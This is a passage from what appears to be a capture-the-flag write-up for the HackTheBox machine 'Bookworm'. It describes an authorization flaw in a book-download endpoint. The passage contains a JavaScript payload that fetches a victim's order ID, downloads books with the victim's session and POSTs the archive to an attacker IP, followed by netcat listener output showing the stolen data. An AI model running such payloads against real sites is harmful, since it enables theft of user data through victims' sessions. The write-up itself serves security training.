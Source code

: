 #### Download Multiple

I’m curious to see what comes back when I try to download multiple books at the same time. It seems unlikely that it would be a single PDF, and more likely some kind of archive.

I wasted a ton of time trying to write JavaScript that would check each order page for a “Download everything” link and visit it. I’m sure it’s possible, but the JS was getting complex and very difficult to troubleshoot blindly and over 4-5 minute waits.

Eventually I decided to try seeing how tied to the current user to download is. The order ID in the URL must match the current user, or nothing comes back. But it doesn’t seem that that books are checked to see if they are in the current order. That means I can just grab an order ID from the profile and then download any books I want:

```

fetch('/profile', {credentials: 'include'})
.then((resp) => resp.text())
.then((resptext) => {
  order_id = resptext.match(/\/order\/(\d+)/);
  fetch("http://bookworm.htb/download/"+order_id[1]+"?bookIds=1&bookIds=2", {credentials: 'include'})
  .then((resp2) => resp2.blob())
  .then((data) => {
    fetch("http://10.10.14.6/exfil", { 
      method: "POST",
      mode: 'no-cors',
      body: data
    });
  });
});

```

What comes back is a ZIP archive:

```

oxdf@hacky$ nc -lnvkp 80                                                                                                  
Listening on 0.0.0.0 80                                                        
Connection received on 10.10.11.215 47762                                      
POST /exfil HTTP/1.1                                                           
Host: 10.10.14.6                                                               
Connection: keep-alive                                                         
Content-Length: 1629                                                           
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36                                                                                                                                                                                               
Accept: */*                                                                    
Origin: http://bookworm.htb                                                    
Referer: http://bookworm.htb/                                                  
Accept-Encoding: gzip, deflate                                                 

p>V$Alice's Adventures in Wonderland.pdfmRkAै'RhnɦmIA2L3qwVfE E< Vz)V=yDL~Ѹ{7Kj( /UQ"u                                                                         
8Glpx   PA<yZHq&(>DdL"E]6q.4M-^)*L"_xPg5u*aנx<1~z7vV-]g+i?{4v??>oz?                                                                                           
æ>~GmsEt/ə@xT-* JAE8,^v                                            ~ؿp;<vnQU6.GSaY")HWB                                                                       
_`]%>,E#K=$*8k˖Hp:䚦RCB'07+r%dsnCQS%,MhaEE">XXg'SDr-m2[lڒY`;wIpwix0r@T:Ti1                                                                                    

              Fc2v hhx85P?up>VThrough the Looking-Glass.pdfmRn@`$Tu]P)-"gUMj5Pp$XtX6;~>WaMm x39.U뺚Չ                                                          
```